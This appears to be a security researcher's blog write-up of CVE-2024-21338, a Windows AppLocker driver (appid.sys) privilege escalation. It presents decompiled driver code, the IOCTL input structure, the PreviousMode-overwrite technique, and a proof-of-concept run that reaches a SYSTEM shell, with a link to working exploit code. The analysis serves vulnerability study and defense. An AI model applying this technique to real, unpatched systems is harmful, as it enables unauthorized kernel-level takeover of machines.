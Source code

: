 ```yaml
---
title:      "Windows AppLocker Kernel Elevation of Privilege Vulnerability  "
subtitle:   "Sample Subtitle"
date:       2025-05-18
author:     "Ghostbyt3"
tags:    ["1day", "appid.sys", "windows", "kernel", "memory leak"]
categories: ["1Day Breakdown"]
authorbox: true
pager: true
toc: true
sidebar: "right"
layout: "single"
showTableOfContents: true
---
```


CVE-2024-21338 is a privilege escalation vulnerability in the Windows AppLocker driver (`appid.sys`). The flaw resides in the `AipSmartHashImageFile` function, reachable via IOCTL `0x22A018`, which allows user-mode input to control code execution. Specifically, the function dereferences two user-provided pointers from a shared SystemBuffer without verifying their validity or origin. One of these pointers is treated as a function pointer and is called directly from kernel mode. The patched version adds checks to ensure the input does not originate from user mode and restricts access.

**CVE-2024-21338:** https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21338  
**Vulnerability Type:** Untrusted Pointer Dereference  
**Tested On:** Windows 11 23H2  
**Driver Version:** appid.sys - 10.0.22621.3155    

## Vulnerability analysis


```c++
__int64 __fastcall AipDeviceIoControlDispatch(struct _DEVICE_OBJECT *a1, IRP *_IRP)
{


[::]

      case 0x22A018u:
        if ( WPP_GLOBAL_Control != (PDEVICE_OBJECT)&WPP_GLOBAL_Control && (HIDWORD(WPP_GLOBAL_Control->Timer) & 2) != 0 )
          WPP_SF_(WPP_GLOBAL_Control->AttachedDevice, 27LL, &WPP_1ce862bc955b392889c1b25f85145990_Traceguids);
        if ( CurrentStackLocation->Parameters.DeviceIoControl.InputBufferLength == 32 )
        {
          ConfigOptions = AipSmartHashImageFile((__int64)_IRP->AssociatedIrp.SystemBuffer, 0LL, 0LL, 0LL); // Call to AipSmartHashImageFile with User input
LABEL_103:
          v9 = ConfigOptions;
          break;
        }
LABEL_25:
        v9 = -1073741811;
        break;
      default:
        v7 = WPP_GLOBAL_Control;
        if ( WPP_GLOBAL_Control == (PDEVICE_OBJECT)&WPP_GLOBAL_Control || (HIDWORD(WPP_GLOBAL_Control->Timer) & 2) == 0 )
          goto LABEL_15;
        v8 = 28LL;
LABEL_14:
        WPP_SF_D(v7->AttachedDevice, v8, &WPP_1ce862bc955b392889c1b25f85145990_Traceguids, LowPart);
LABEL_15:
        v9 = -1073741808;
        break;
    }


[::]
```

Following up, the process takes the following path and performs several checks. The main check happens in `appid!AipSmartHashImageFile()` whose primary functionality is passing the value at `SystemBuffer + 8` to [`ObfReferenceObject()`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-obfreferenceobject). This routine increments the reference count of the specified object, which implies that the value at SystemBuffer + 8 must be a valid kernel object address. Otherwise, the reference operation will fail or potentially lead to a crash.

![IMG](/img/cve-2024-21338/img.png)

`AppHashComputeImageHashInternal()` calls the function pointer stored at `SystemBuffer + 16`, passing the value at `SystemBuffer` (i.e., the first 8 bytes) as an argument.

```c++
__int64 __fastcall AppHashComputeImageHashInternal(
        __int64 SystemBuffer,
        __int64 (__fastcall **SystemBuffer_16)(__int64, __int128 *),
        unsigned int a3,
        __int64 a4)
{

[::]

  __int64 v43; // [rsp+A8h] [rbp+Fh]

  v39 = SystemBuffer_16;
  *(_QWORD *)v32 = a4;
  v40 = SystemBuffer;
  v29 = 0;
  v37 = 0LL;
  v38 = 0LL;
  v5 = 0;
  v43 = 0LL;
  v6 = 0;
  v30 = 0;
  v33 = 0;
  v34 = 0;
  LODWORD(v35) = 0;
  *(_QWORD *)v41 = 0LL;
  v42 = 0LL;
  if ( !a3 )
    return 0;
  v7 = (*SystemBuffer_16)(SystemBuffer, &v42); // Vulnerable function call


[::]

```

This is a sample structure of how the input should be defined:

```c
typedef struct SMART_HASH_INPUT {
    DWORD64 Arguments_Ptr;
    PVOID Object_Ptr;
    PVOID ExpProfileDelete_Ptr;
    DWORD64 PADDING;
} _SMART_HASH_INPUT, *PSMART_HASH_INPUT;
```
- `Object_Ptr` must be a valid object pointer that satisfies the expectations of `AipSmartHashImageFile()`.
- `ExpProfileDelete_Ptr` is the API that will be invoked. This call is routed through `guard_dispatch_icall_fpt`, which enforces Kernel Control Flow Guard (KCFG). The `nt!ExpProfileDelete()` function ultimately calls the `ObfDereferenceObjectWithTag` kernel macro.
- This macro decrements the reference count field of the object passed to it (located at offset -0x30). This behavior makes it ideal for modifying the `PreviousMode` of a thread—from a user-mode value of 1 to a kernel-mode value of 0.
- To achieve this, we need to pass the address of `nt!ExpProfileDelete()` to `ExpProfileDelete_Ptr`, and `Arguments_Ptr` must point to the `KTHREAD.PreviousMode` field of the current thread.

## Exploit

Tested on: Windows 11 22H2 (01-2024 Build)
Working POC: https://github.com/ghostbyt3/WinDriver-EXP/tree/main/CVE-2024-21338/POC

```
PS C:\Users\h4x\Desktop> .\CVE-2024-21338.exe -p 2116
[+] Trying to find Thread ID for the given process PID: 2116
[+] First Thread ID of the process: 2120
[+] NT base address fffff80012400000
[+] Found EPROCESS of the current process FFFFAD85DAFBE080
[+] Found KTHREAD of the current thread FFFFAD85D9335080
[+] Found EPROCESS of the system.exe FFFFAD85D64E8040
[+] Opened a THREAD_DIRECT_IMPERSONATION handle to the LOCAL_SERVICE process
[+] Opening handle to Applocker device
[+] Dummy FILE_OBJECT address: FFFFAD85DBA171D0
[+] Calling AipSmartHashImageFile ....success
[+] Stealing system's Token..
[+] Replacing KTHREAD.PreviousMode as UserMode..
[+] Spawning shell as SYSTEM...
Microsoft Windows [Version 10.0.22621.1]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h4x\Desktop>whoami
nt authority\system
```

## Acknowledgements

- It was explained by Nero0oo0 and can be found [here](https://nero22k.github.io/posts/windows-applocker-driver-elevation-of-privilege-cve-2024-21338/).
- The [PoC](https://github.com/Nero22k/Exploits/tree/main/Windows/CVE-2024-21338) was developed by Nero0oo0, and the above PoC is based on it.
